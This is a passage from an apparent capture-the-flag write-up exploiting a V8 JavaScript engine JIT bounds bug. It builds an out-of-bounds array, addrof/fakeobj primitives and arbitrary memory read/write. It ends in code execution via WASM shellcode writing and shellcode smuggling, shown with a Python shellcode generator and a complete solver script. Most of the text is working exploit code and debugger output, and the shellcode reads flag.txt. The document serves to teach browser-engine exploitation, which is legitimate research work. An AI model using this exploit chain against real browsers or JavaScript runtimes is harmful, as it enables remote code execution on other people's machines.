[bailout (kind: deopt-eager, reason: out of bounds): begin. deoptimizing 0x1f2a0101974d <JSFunction foo (sfi = 0x1f2a01018df1)>, 0x1f2a01040e59 <Code MAGLEV>, opt id 1, bytecode offset 98, deopt exit 3, FP to SP delta 40, caller SP 0x7ffe03665f88, pc 0x5e0670d024ca]
[marking 0x1f2a0101974d <JSFunction foo (sfi = 0x1f2a01018df1)> for optimization to MAGLEV, ConcurrencyMode::kConcurrent, reason: hot and stable]
[compiling method 0x1f2a0101974d <JSFunction foo (sfi = 0x1f2a01018df1)> (target MAGLEV), mode: ConcurrencyMode::kConcurrent]
[completed compiling 0x1f2a0101974d <JSFunction foo (sfi = 0x1f2a01018df1)> (target TURBOFAN_JS) - took 0.010, 3.579, 0.018 ms]
[completed optimizing 0x1f2a0101974d <JSFunction foo (sfi = 0x1f2a01018df1)> (target TURBOFAN_JS)]
[*] Obtained OOB arr
...
```

## Getting OOB array

Using this we can get single reads/writes out of bounds. The next step is leveraging this into a permanent out of bounds primitive. Ultimately the way I did this was by allocating 2 arrays inside `foo`, and use an oob write to change the length of the other array.

```js
function foo(y) {
   var z = null;
   if (y < 0) {
      z = 0;
   } else {
      z = {y:y, valueOf: function() {return this.y}};
   }

   var idx = +z;
   var arr1 = [1.1, 2.2, 3.3];
   var arr2 = [4.4, 5.5, 6.6];
   return [arr1, arr2, arr1[idx]];
}

%PrepareFunctionForOptimization(foo);
foo(-1);
foo(0);
foo(1);

%OptimizeFunctionOnNextCall(foo);
console.log(foo(6)[2]);    // 4.4
```
For example, here we can access elements of `arr2` from `arr1`.

One thing to note is that, in theory, this may not be reliable, as the JS heap allocator may not allocate them next to each other. However, when allocated inside of a JIT'ed function, they are *guaranteed* be adjacent. We can see this in turbolizer:



1. Allocates `0x20` bytes for `arr1.elements` from the `new_allocation_info_top_address`, by incrementing this by `0x20` (like the top chunk in glibc heap).
2. Allocates another `0x10` bytes for `arr1` itself, again from `new_allocation_info_top_address`.
3. Allocated another `0x20` for `arr2.elements`.

```
|-------------------|
|   arr1.elements   |
|-------------------|
|       arr1        |
|-------------------|
|   arr2.elements   |
|-------------------|
|       arr2        |
|-------------------|
```


From this we can see that the arrays are guaranteed to be allocated in sequence, and with their `elements` before the array itself (without JIT this is usually the case, but *not* always a guarantee).

If we want to increase the length of `arr2`, there are 2 fields we could target.

The first is JSArray's length field (stored as smi(0x6)). The problem with this is when using 64-bit accesses, you have to also overwrite the `elements` field, which we can't know ahead of time.

While you could use a read to get `elements` to construct the write properly, using `itof`/`ftoi`, doing this inside the JIT'ed `foo` can cause issues with compilation, as its using external functions.

The easier solution is to target the `elements.length`, which is basically the capacity of the array. The other field is the `map`, which we know ahead of time (from the disassembly we can see its `0x939`). By increasing the capacity, we can then do a write beyond the length (but within the new capacity) to increase the length.

The value we want to write would be
```js
itof(0x00000939n | (0x80000n << 32n))
```
Which sets the capacity to `0x80000 >> 1 = 0x40000`. Including this in the function affects the compilation, so to keep it simpler we can just hardcode the float constant instead.

```js
function foo(y) {
   var z = null;
   if (y < 0) {
      z = 0;
   } else {
      z = {y:y, valueOf: function() {return this.y}};
   }

   var idx = +z;
   var arr1 = [1.1, 2.2, 3.3];
   var arr2 = [4.4, 5.5, 6.6];

   const elems_size = arr1[idx];
   arr1[idx] = 1.112536929254767e-308;  // itof(0x00000939n | (0x80000n << 32n))

   return [arr1, arr2, elems_size];
}

%PrepareFunctionForOptimization(foo);
foo(-1);
foo(0);
foo(1);

%OptimizeFunctionOnNextCall(foo);
arr = foo(5)[1];
arr[1337] = 1337.1337;
console.log(arr.length);
console.log(arr[3]);
```

```
$ ./d8 --allow-natives-syntax test.js
1338
4.2885618057136e-311
```

In this example we return `arr1` to bypass escape analysis. If turbofan can recognise that `arr1` isnt used anywhere except inside `foo` it can optimise that array away. By returning `arr1`, its forced to recognise that it can be used outside `foo`, and so is forced to allocate the JSArray for it.

In practice, if `arr1` isn't returned, what `foo` does here is only allocate `arr1.elements`, because it doens't need the full JSArray. In which case, the heap layout would be:
```
|-------------------|
|   arr1.elements   |
|-------------------|
|   arr2.elements   |
|-------------------|
|       arr2        |
|-------------------|
```

## Getting addrof and fakeobj

A lot of v8 exploitation revoles getting 2 certain primitives: `addrof` and `fakeobj`. A common method to get these using an OOB is to corrupt an array's `map` field. This changes how the elements of the array interpreted. For example, we can change an array of (pointers to) objects to be interpreted as raw floats. Then when we read from the array, we can read the address of an object (as a float). This is how you can construct an `addrof` primitive (and `fakeobj` is the same, but going the other way).

The way I did this was allocating both an array of floats and objects directly after the OOB array. Then you can read their `map`s, then use one of them to switch between floats and objects for the 2 primitives.

```js
function foo(y) {
   var z = null;
   if (y < 0) {
      z = 0;
   } else {
      z = {y:y, valueOf: function() {return this.y}};
   }

   var idx = +z;
   var arr1 = [1.1, 2.2, 3.3];
   var arr2 = [4.4, 5.5, 6.6];
   var floats = [7.7, 8.8, 9.9];
   var objects = [floats, floats];

   const elems_size = arr1[idx];
   arr1[idx] = 1.112536929254767e-308;  // itof(0x00000939n | (0x80000n << 32n))

   return [arr1, arr2, elems_size, objects];
}

%PrepareFunctionForOptimization(foo);
foo(-1);
foo(0);
foo(1);

%OptimizeFunctionOnNextCall(foo);
a = foo(5);
oob = a[1];
oob[1337] = 1337.1337;

objects = a[3];
floats = objects[0];

const float_arr_map = oob[9];
const obj_arr_map = oob[13];

const float_elems_map = oob[5];    // FixedDoubleArray
const obj_elems_map = oob[11];     // FixedArray

console.log("[*] float_arr.map: " + hex(ftoi(float_arr_map)));
console.log("[*] obj_arr.map: " + hex(ftoi(obj_arr_map)));

function addrof(obj) {
  oob[11] = obj_elems_map;
  oob[13] = obj_arr_map;
  obj_arr[0] = obj;
  oob[11] = float_elems_map;
  oob[13] = float_arr_map;
  return ftoi(obj_arr[0]) & 0xffffffffn;
}
function fakeobj(addr) {
  addr |= 1n;
  oob[11] = float_elems_map;
  oob[13] = float_arr_map;
  obj_arr[0] = itof(addr);
  oob[11] = obj_elems_map;
  oob[13] = obj_arr_map;
  return obj_arr[0];
}
```

I allocated `floats` and `objects` inside `foo` to guarantee adjacency, so the layout is:
```

|-------------------|
|   oob.elements    |
|-------------------|
|       oob         |
|-------------------|
|  floats.elements  |
|-------------------|
|      floats       |
|-------------------|
| objects.elements  |
|-------------------|
|     objects       |
|-------------------|
```

## Read/write inside v8 heap

Using `fakeobj` and `addrof`, we can construct arbitrary read/write inside the v8 heap by constructing a fake JSArray with a controlled `elements` pointer.

```js
float_arr[0] = float_arr_map;
const addrof_control = addrof(float_arr) - 0x18n;
console.log("[*] addrof(control): " + hex(addrof_control));

function caged_read(addr) {
	addr = addr | 1n;
	var elem_and_size = (addr - 0x08n) | (0x2n << 32n);
	float_arr[1] = itof(elem_and_size);
  var controlobj = fakeobj(addrof_control);
	return ftoi(controlobj[0]);
}
function caged_write(addr, val) {
  val = BigInt(val);
  addr = addr | 1n;
  var elem_and_size = (addr - 0x08n) | (0x2n << 32n);
  float_arr[1] = itof(elem_and_size);
  var controlobj = fakeobj(addrof_control);
  controlobj[0] = itof(val);
}
```

We use the other array (`float_arr`) to create all the fields, and find its address with `addrof`. And we know its raw elements are directly before the array, so we can find the fake JSArray fields on the heap, and use `fakeobj` to use that fake JSArray object.

One thing to note is that with this read/write we can't control the `elements.map`, which doesn't matter for the first few reads and writes as it isn't checked. But after that it optimises to use a different method for reading/writing, which *does* check the `map`.

Thankfully here this isn't a problem as we don't use these too many times.

## Read/write outside the v8 heap

The JSArrays are limited to only accessing the v8 memory, due to pointer compression. But it can be helpful to access memory outside the heap too. A common object used for this is the `ArrayBuffer`. This has a pointer to its backing store, which is a 64-bit pointer. By overwriting this, you can read/write any address.

```js
var rw_buf = new ArrayBuffer(0x2000);
var rw_dv = new DataView(rw_buf);

function read(addr) {
  caged_write(addrof(rw_buf)+0x24n, addr);
  return rw_dv.getBigUint64(0, true);
}
function write(addr, val) {
  caged_write(addrof(rw_buf)+0x24n, addr);
  rw_dv.setBigUint64(0, BigInt(val), true);
}
```

## RCE

### WASM

The most common route for getting code execution is using WASM. In v8 you can load WASM modules, which are also JIT compiled. Because of this, the code is stored in rwx region so that it can be quickly changed. You can load a basic WASM module as follows:
```js
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,0,11]);
var wasm_mod = new WebAssembly.Module(wasmCode);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var func = wasm_instance.exports.main;

// func()
```
You can find the address of the rwx region through the `wasm_instance` object.

To help with this, you can use `gdb` with a `gdbinit` script provided in the `v8` repository:
```
gdb -x v8/tools/gdbinit --args ./d8 --allow-natives-syntax
```
This provides commands which make it easier to examine JS objects, such as `job` (similar to `%DebugPrint`).

```
d8> %DebugPrint(wasm_instance)
DebugPrint: 0x3cf010195ed: [WasmInstanceObject] in OldSpace
 - map: 0x03cf01011a25 <Map[24](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x03cf01011ad5 <Object map = 0x3cf0101959d>
 - elements: 0x03cf000007e5 <FixedArray[0]> [HOLEY_ELEMENTS]
 - trusted_data: 0x03cf01040859 <Other heap object (WASM_TRUSTED_INSTANCE_DATA_TYPE)>
 - module_object: 0x03cf01086849 <Module map = 0x3cf0101190d>
 - exports_object: 0x03cf01086999 <Object map = 0x3cf010197dd>
 - properties: 0x03cf000007e5 <FixedArray[0]>
 - All own properties (excluding elements): {}
...
```

The address of the rwx region csn be found inside the `trusted_data` object.
```
pwndbg> job 0x03cf01040859
0x3cf01040859: [WasmTrustedInstanceData]
 - map: 0x03cf00001fd1 <Map[136](WASM_TRUSTED_INSTANCE_DATA_TYPE)>
 - instance_object: 0x03cf010195ed <Instance map = 0x3cf01011a25>
 - native_context: 0x03cf01002f45 <NativeContext[307]>
 - shared_part: 0x03cf01040859 <Other heap object (WASM_TRUSTED_INSTANCE_DATA_TYPE)>
 - memory_objects: 0x03cf0108698d <FixedArray[1]>
 - untagged_globals_buffer: 0x03cf00000f19 <ByteArray[0]>
 - tagged_globals_buffer: 0x03cf000007e5 <FixedArray[0]>
 - imported_mutable_globals_buffers: 0x03cf000007e5 <FixedArray[0]>
 - imported_mutable_globals_offsets: 0x03cf00000f19 <ByteArray[0]>
 - tables: 0x03cf010869cd <FixedArray[1]>
 - dispatch_table0: 0x03cf010408ed <WasmDispatchTable[0]>
 - dispatch_tables: 0x03cf010408e1 <ProtectedFixedArray[1]>
 - dispatch_table_for_imports: 0x03cf01040811 <WasmDispatchTableForImports[0]>
 - func_refs: 0x03cf01086981 <FixedArray[1]>
 - managed_object_maps: 0x03cf01086a01 <FixedArray[1]>
 - feedback_vectors: 0x03cf01019701 <FixedArray[1]>
 - well_known_imports: 0x03cf000007e5 <FixedArray[0]>
 - memory0_start: 0x778f5b1d0000
 - memory0_size: 65536
 - jump_table_start: 0x1f03cd98b000                 <----------------
 - data_segments: 0x03cf01040011 <Other heap object (TRUSTED_BYTE_ARRAY_TYPE)>
 - element_segments: 0x03cf000007e5 <FixedArray[0]>
 - hook_on_function_call_address: 0x1ca400040609
 - tiering_budget_array: 0x1ca40003e530
 - memory_bases_and_sizes: 0x03cf0104081d <Other heap object (TRUSTED_BYTE_ARRAY_TYPE)>
 - break_on_entry: 0
pwndbg> vmmap 0x1f03cd98b000
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
               Start                End Perm     Size  Offset File (set vmmap-prefer-relpaths on)
      0x1ca400e4c000     0x1ca800000000 ---p 3ff1b4000      0 [anon_1ca400e4c]
►     0x1f03cd98b000     0x1f03cd98d000 rwxp     2000       0 [anon_1f03cd98b] +0x0
      0x5f0206ca5000     0x5f020836d000 r--p  16c8000       0 d8
```
Specifically the `jump_table_start` field. It can be found in memory as follows:
```
pwndbg> x/32wx 0x03cf01040859-1
0x3cf01040858:  0x00001fd1      0x010408ed      0x01040811      0x000007e5
0x3cf01040868:  0x00000f19      0x00000000      0x5b1d0000      0x0000778f
0x3cf01040878:  0x00010000      0x00000000      0xcd98b000      0x00001f03
0x3cf01040888:  0x00040609      0x00001ca4      0x0003e530      0x00001ca4
0x3cf01040898:  0x0104081d      0x01040011      0x000007e5      0x010195ed
0x3cf010408a8:  0x01002f45      0x01040859      0x0108698d      0x00000f19
0x3cf010408b8:  0x000007e5      0x010869cd      0x010408e1      0x00000011
0x3cf010408c8:  0x01086981      0x01086a01      0x01019701      0x000007e5
pwndbg> x/a 0x03cf01040859-1+0x28
0x3cf01040880:  0x1f03cd98b000
```

So using our `caged_read`, we can find it as follows:
```js
trusted_data = caged_read(addrof(wasm_instance) + 0xcn);
rwx = caged_read(trusted_data + 0x28n);   // trusted_data.jump_table_start
console.log("[*] rwx: " + hex(rwx));
```

### Method 1: Writing shellcode

The most common method from here would be using our global write to write shellcode to this region, then calling `func()`.

The shellcode that we'll use will open `flag.txt` and print its contents.

```js
// setup ArrayBuffer to cover rwx region
var rw_buf = new ArrayBuffer(0x2000);
var rw_dv = new DataView(rw_buf);

caged_write(addrof(rw_buf)+0x24n, rwx);
function read_rwx(i) {
  return rw_dv.getBigUint64(i, true);
}
function write_rwx(i, val) {
  return rw_dv.setBigUint64(i, BigInt(val), true);
}

const shellcode = [0xb96651660000b966n, 0x742eb96651667478n, 0x51666761b9665166n, 0xc03151666c66b966n, 0x31f631e7894802b0n, 0x48c031c789050fd2n, 0x1b0050fffb2e689n, 0xe7b8050fc789n, 0x50f00n];
for (i=0 ; i<shellcode.length ; i++) {
  write_rwx(i*8, shellcode[i]);
}
func();
```

There is a problem with this approach, because of a protection called PKU which stops this method from working. By using `pkey_mprotect` with a `pkey` from `pkey_alloc`, and changing a certain CPU register (`PKRU`), it can block writes to the rwx region.

However this only works on systems that have this protection enabled (has to be supported by the CPU and kernel), so this RCE method can work on some systems, but not necessarily remotely.

### Method 2: Shellcode smuggling

The more reliable method is shellcode smuggling through WASM. The idea here is instead of writing code to the region, we can change the pointer to the rwx region (`jump_table_start`) itself inside the `trusted_data` object to jump elsewhere. And while we can't control the code fully, we can control some constants that the code may use.

For example, say we had an instruction like:
```
$ pwn disasm -c amd64 48c7c00f050000
   0:    48 c7 c0 0f 05 00 00     mov    rax,  0x50f
```
Since x86 has variable-length instructions, we could jump into the middle of this instruction.
If we jumped to offset `+3` inside of this:
```
$ pwn disasm -c amd64 0f050000
   0:    0f 05                    syscall
```
We can get an abritrary `syscall` instruction.

This allows for upto 8 bytes of arbitrary code, however if we have multiple constants, we could use `jmp` instructions to jump between them.

```wasm
(module
  (memory (export "mem") 1)

  (func (export "main") (result i32)
    (i64.store (i32.const 0)   (i64.const 0x1111111111111111))
    (i64.store (i32.const 8)   (i64.const 0x2222222222222222))
    (i64.store (i32.const 16)  (i64.const 0x3333333333333333))
    (i64.store (i32.const 24)  (i64.const 0x4444444444444444))
    (i64.store (i32.const 32)  (i64.const 0x5555555555555555))
    (i32.const 0)
  )
)
```
Compiling this with `wat2wasm`, loading into v8, and looking at the disassembly:
```js
var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 5, 1, 96, 0, 1, 127, 3, 2, 1, 0, 5, 3, 1, 0, 1, 7, 14, 2, 3, 109, 101, 109, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 83, 1, 81, 0, 65, 0, 66, 145, 162, 196, 136, 145, 162, 196, 136, 17, 55, 3, 0, 65, 8, 66, 162, 196, 136, 145, 162, 196, 136, 145, 34, 55, 3, 0, 65, 16, 66, 179, 230, 204, 153, 179, 230, 204, 153, 51, 55, 3, 0, 65, 24, 66, 196, 136, 145, 162, 196, 136, 145, 162, 196, 0, 55, 3, 0, 65, 32, 66, 213, 170, 213, 170, 213, 170, 213, 170, 213, 0, 55, 3, 0, 65, 0, 11]);
var wasm_mod = new WebAssembly.Module(wasmCode);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var func = wasm_instance.exports.main;
func()   // lazy compilation: needed to compile the function
```
```
pwndbg> x/50i 0x1bcb9cffe000+0xa40
   0x1bcb9cffea40:      xor    r12d,r12d
   0x1bcb9cffea43:      call   0x1bcb9cffe1b0
   0x1bcb9cffea48:      sub    rsp,0x8
   0x1bcb9cffea4f:      cmp    rsp,QWORD PTR [r13-0x60]
   0x1bcb9cffea53:      jbe    0x1bcb9cffeaba
   0x1bcb9cffea59:      movabs rax,0x1111111111111111
   0x1bcb9cffea63:      mov    rcx,QWORD PTR [rsi+0x17]
   0x1bcb9cffea67:      mov    QWORD PTR [rcx],rax
   0x1bcb9cffea6a:      movabs rax,0x2222222222222222
   0x1bcb9cffea74:      mov    QWORD PTR [rcx+0x8],rax
   0x1bcb9cffea78:      movabs rax,0x3333333333333333
   0x1bcb9cffea82:      mov    QWORD PTR [rcx+0x10],rax
   0x1bcb9cffea86:      movabs rax,0x4444444444444444
   0x1bcb9cffea90:      mov    QWORD PTR [rcx+0x18],rax
   0x1bcb9cffea94:      movabs rax,0x5555555555555555
   0x1bcb9cffea9e:      mov    QWORD PTR [rcx+0x20],rax
   0x1bcb9cffeaa2:      mov    r10,QWORD PTR [rsi+0x37]
   0x1bcb9cffeaa6:      sub    DWORD PTR [r10],0x9e
   0x1bcb9cffeaad:      js     0x1bcb9cffeac5
   0x1bcb9cffeab3:      xor    eax,eax
   0x1bcb9cffeab5:      mov    rsp,rbp
   0x1bcb9cffeab8:      pop    rbp
   0x1bcb9cffeab9:      ret
```
We can see that the 64-bit constants are equally spaced (except for the first one). By using a `jmp 0x8` instruction (`eb06`) as the last 2 bytes of the constant, we can jump to the start of the next constant. This allows upto 6 bytes of code executed at a time.

This script converts shellcode into a WASM module.
```py
from pwn import *
from capstone import *
import os

context.arch = "amd64"
md = Cs(CS_ARCH_X86, CS_MODE_64)

jmp_next = asm("jmp $+0x08")    # eb06
assert len(jmp_next) == 2

assembly = ""

# push "flag.txt" 2 bytes at a time
data = b"flag.txt\x00"
for i in reversed(range(0, len(data), 2)):
    cx = u16(data[i:i+2].ljust(2, b"\x00"))
    assembly += f"mov cx, {cx}\npush cx\n"  # 6 bytes exactly
# open("flag.txt", NULL, NULL)
assembly += """
xor eax, eax
mov al, SYS_open
mov rdi, rsp
xor esi, esi
xor edx, edx
syscall

mov edi, eax
xor eax, eax
mov rsi, rsp
mov dl, 0xff
syscall

mov al, 1
mov edi, eax
syscall

mov eax, SYS_exit_group
syscall
"""

shellcode = asm(assembly)

print("Raw shellcode:")
print("[" + ", ".join(map(lambda x: f"{hex(x)}n", [u64(shellcode[i:i+8].ljust(8, b"\x00")) for i in range(0, len(shellcode), 8)])) + "]")
print()

chunks = [b""]
for ins in md.disasm(shellcode, 0):
    ins = bytes(ins.bytes)
    assert len(ins) <= 6, f"{line!r} is too long ({len(ins)} bytes)"
    if len(chunks[-1]+ins) <= 6:
        chunks[-1] += ins
    else:
        chunks.append(ins)

for chunk in chunks:
    print(disasm(chunk))
    print()

consts  = [0x1111111111111111]
consts += [u64(chunk.ljust(6, b"\x90") + jmp_next) for chunk in chunks]

assert len(set(consts)) == len(consts), "Each chunk needs to be unique"

lines = []
for i, const in enumerate(consts):
    lines.append(f"(i64.store (i32.const {i*8})  (i64.const {hex(const)}))")

wat = f"""
(module
  (memory (export "mem") 1)

  (func (export "main") (result i32)
    {"\n".join(lines)}
    (i32.const 0)
  )

  (func (export "main2") (result i32)
    (i32.const 1)
  )
)
"""
with open("prog.wat", "w+") as f:
    f.write(wat)

os.system("wat2wasm prog.wat")

with open("prog.wasm", "rb") as f:
    code = list(f.read())

print(f"""
const first_smuggled_const = {hex(consts[1])}n;
var wasmCode = new Uint8Array({code});
var wasm_mod = new WebAssembly.Module(wasmCode);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var func = wasm_instance.exports.main;
var func2 = wasm_instance.exports.main2;
""".strip())
```

We can also use our global read to find exactly where the start of our smuggled shellcode begins, by finding the first 64-bit shellcode constant.
```js
var rw_buf = new ArrayBuffer(0x2000);
var rw_dv = new DataView(rw_buf);

caged_write(addrof(rw_buf)+0x24n, rwx);
function read_rwx(i) {
  return rw_dv.getBigUint64(i, true);
}

i = 0n;
first_ins = read_rwx(8*0);
if ((first_ins & 0xffn) == 0xe9n) {
  // jmp [disp32]
  i = ((first_ins >> 8n) & 0xffffffffn) + 5n;
} else if ((first_ins & 0xffn) == 0xebn) {
  // jmp [disp8]
  i = ((first_ins >> 8n) & 0xffn) + 2n;
}

var rwx_smuggle = undefined;
for (i = Number(i) ; i < 0x2000; i++) {
  if (read_rwx(i) === first_smuggled_const) {
    rwx_smuggle = rwx + BigInt(i);
    break;
  }
}
```
Note that the WASM module used here has *2* functions. The first contains the shellcode constants, but the other is a dummy function.

The reason for this is, `jump_table_start` is only used when a WASM function is called for the first time. Each function has a dedicated slot at the start of the rwx region, which corresponds to a `jmp` to the actual code of the function. This is used to "resolve" the WASM function, and once its been "resolved", the actual address of the function can be saved (similar to PLT/GOT).

```
pwndbg> x/10i 0x1f8ada6b000
   0x1f8ada6b000:       jmp    0x1f8ada6ba00
   0x1f8ada6b005:       int3
   0x1f8ada6b006:       int3
   0x1f8ada6b007:       int3
   0x1f8ada6b008:       jmp    0x1f8ada6ba0a
   0x1f8ada6b00d:       int3
   0x1f8ada6b00e:       int3
   0x1f8ada6b00f:       int3
```

The address of the resolver is calculated as `jump_table_start + func_index*8`. Here, `func2` would jump to `0x1f8ada6b008`.

So overwrite the `jump_table_start` field to `rwx_smuggle - 8`, and finally call `func2`.

```js
caged_write(trusted_data + 0x28n, rwx_smuggle - 8n);
func2();
```

## Solver

```js
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new BigUint64Array(buf);

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return u64_buf[0];
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = val;
    return f64_buf[0];
}

function hex(val) {
    return '0x' + val.toString(16);
};

function foo(y) {
  // Type: Range(0, 1) | OtherObject
  // Value: {y:1024, ...}
  const z = (y < 0) ?
    (new Date()).getMilliseconds() >> 9
    :
    {y:y, valueOf: function() {return this.y;} };

  // [JSToNumber]
  // Type: Range(0, 1)    (normally would be Number)
  // Value: y
  const idx = +z;
  const arr1 = [1.1, 2.2, 3.3];  // PACKED_DOUBLE_ELEMENTS
  const arr2 = [4.4, 5.5, 6.6];  // PACKED_DOUBLE_ELEMENTS
  const floats = [7.7, 8.8, 9.9];
  const objects = [floats, floats];

  /*
  arr1 is not escaped ==> only arr1.elements is allocated (no JSArray)
  arr2 is escaped
  objects is escaped ==> floats is escaped

  the JIT'ed foo() will allocate these in the exact order they're defined (arr.elems always before arr)
  allocation involves incrementing IsolateData::new_allocation_info_top_address() by a set amount
  so the heap is guaranteed to look like this:

  arr1.elems | arr2.elems | arr2 | floats.elems | floats | objects.elems | objects
  */

  // set arr2.elems.length = 0x40000n
  const elems_size = arr1[idx];
  arr1[idx] = 1.112536929254767e-308;  // itof(0x00000939n | (0x80000n << 32n))

  return [arr2, elems_size, objects];
}

//console.log(itof(0x00000939n | (0x80000n << 32n)));

for (i=0 ; i<0x4000 ; i++) {
  // needs to expect the (y<0) path, otherwise the type will be None
  // ==> z is type None
  // ==> anything using z is considered unreachable ==> int3
  foo(-1);

  // needs both of these, otherwise it folds the {y:y} into a single literal constant
  // and deoptimises if the y isn't the expected one
  // using multiple values forces it to create it every time
  // (and thus any value can be put here ==> no deopt)
  foo(0);
  foo(1);
}

var a = null;
while (1) {
  a = foo(3);
  if (a[1] !== undefined) {
    break;
  }
}

const oob = a[0];
const obj_arr = a[2];
const float_arr = obj_arr[0];
oob[0x800] = 1.1;    // resize to length=0x800

console.log("[*] Obtained OOB arr");

const float_arr_map = oob[9];
const obj_arr_map = oob[13];

const float_elems_map = oob[5];    // FixedDoubleArray
const obj_elems_map = oob[11];     // FixedArray

console.log("[*] float_arr.map: " + hex(ftoi(float_arr_map)));
console.log("[*] obj_arr.map: " + hex(ftoi(obj_arr_map)));

function addrof(obj) {
  oob[11] = obj_elems_map;
  oob[13] = obj_arr_map;
  obj_arr[0] = obj;
  oob[11] = float_elems_map;
  oob[13] = float_arr_map;
  return ftoi(obj_arr[0]) & 0xffffffffn;
}
function fakeobj(addr) {
  addr |= 1n;
  oob[11] = float_elems_map;
  oob[13] = float_arr_map;
  obj_arr[0] = itof(addr);
  oob[11] = obj_elems_map;
  oob[13] = obj_arr_map;
  return obj_arr[0];
}

float_arr[0] = float_arr_map;
const addrof_control = addrof(float_arr) - 0x18n;
console.log("[*] addrof(control): " + hex(addrof_control));

function caged_read(addr) {
	addr = addr | 1n;
	var elem_and_size = (addr - 0x08n) | (0x2n << 32n);
	float_arr[1] = itof(elem_and_size);
  var controlobj = fakeobj(addrof_control);
	return ftoi(controlobj[0]);
}
function caged_write(addr, val) {
  val = BigInt(val);
  addr = addr | 1n;
  var elem_and_size = (addr - 0x08n) | (0x2n << 32n);
  float_arr[1] = itof(elem_and_size);
  var controlobj = fakeobj(addrof_control);
  controlobj[0] = itof(val);
}

const first_smuggled_const = 0x6eb51660000b966n;
var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 5, 1, 96, 0, 1, 127, 3, 3, 2, 0, 0, 5, 3, 1, 0, 1, 7, 22, 3, 3, 109, 101, 109, 2, 0, 4, 109, 97, 105, 110, 0, 0, 5, 109, 97, 105, 110, 50, 0, 1, 10, 228, 1, 2, 220, 1, 0, 65, 0, 66, 145, 162, 196, 136, 145, 162, 196, 136, 17, 55, 3, 0, 65, 8, 66, 230, 242, 130, 128, 224, 172, 212, 245, 6, 55, 3, 0, 65, 16, 66, 230, 242, 226, 163, 231, 172, 212, 245, 6, 55, 3, 0, 65, 24, 66, 230, 242, 186, 161, 231, 172, 212, 245, 6, 55, 3, 0, 65, 32, 66, 230, 242, 134, 187, 230, 172, 212, 245, 6, 55, 3, 0, 65, 40, 66, 230, 242, 154, 227, 230, 172, 212, 245, 6, 55, 3, 0, 65, 48, 66, 177, 128, 195, 149, 128, 146, 228, 245, 6, 55, 3, 0, 65, 56, 66, 200, 146, 158, 143, 227, 158, 228, 245, 6, 55, 3, 0, 65, 192, 0, 66, 177, 164, 191, 168, 144, 241, 241, 245, 6, 55, 3, 0, 65, 200, 0, 66, 177, 128, 163, 202, 232, 156, 228, 245, 6, 55, 3, 0, 65, 208, 0, 66, 178, 255, 191, 168, 128, 182, 192, 245, 6, 55, 3, 0, 65, 216, 0, 66, 137, 143, 191, 168, 128, 146, 228, 245, 6, 55, 3, 0, 65, 224, 0, 66, 184, 207, 131, 128, 128, 128, 228, 245, 6, 55, 3, 0, 65, 232, 0, 66, 143, 138, 192, 132, 137, 146, 228, 245, 6, 55, 3, 0, 65, 0, 11, 4, 0, 65, 1, 11]);
var wasm_mod = new WebAssembly.Module(wasmCode);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var func = wasm_instance.exports.main;
var func2 = wasm_instance.exports.main2;

trusted_data = caged_read(addrof(wasm_instance) + 0xcn);
rwx = caged_read(trusted_data + 0x28n);   // trusted_data.jump_table_start
console.log("[*] rwx: " + hex(rwx));

// setup ArrayBuffer to cover rwx region
var rw_buf = new ArrayBuffer(0x2000);
var rw_dv = new DataView(rw_buf);

caged_write(addrof(rw_buf)+0x24n, rwx);
function read_rwx(i) {
  return rw_dv.getBigUint64(i, true);
}

// lazily compile main wasm function, so that we can find it
func();

// get jump destination of 1st function (main)
// (not tehnically needed, can scan through all region, just makes it quicker)
i = 0n;
first_ins = read_rwx(8*0);
if ((first_ins & 0xffn) == 0xe9n) {
  // jmp [disp32]
  i = ((first_ins >> 8n) & 0xffffffffn) + 5n;
} else if ((first_ins & 0xffn) == 0xebn) {
  // jmp [disp8]
  i = ((first_ins >> 8n) & 0xffn) + 2n;
}

// find first smuggled code constant
var rwx_smuggle = undefined;
for (i = Number(i) ; i < 0x2000; i++) {
  if (read_rwx(i) === first_smuggled_const) {
    rwx_smuggle = rwx + BigInt(i);
    break;
  }
}

if (rwx_smuggle === undefined) {
  console.log("[!] Failed to find smuggled shellcode in WASM");
}

console.log("[*] smuggled shellcode: " + hex(rwx_smuggle));

// trusted_data.jump_table_start = rwx_smuggle-8
// (the -8 is because func2 is index 1)
caged_write(trusted_data + 0x28n, rwx_smuggle - 8n);
func2();
```
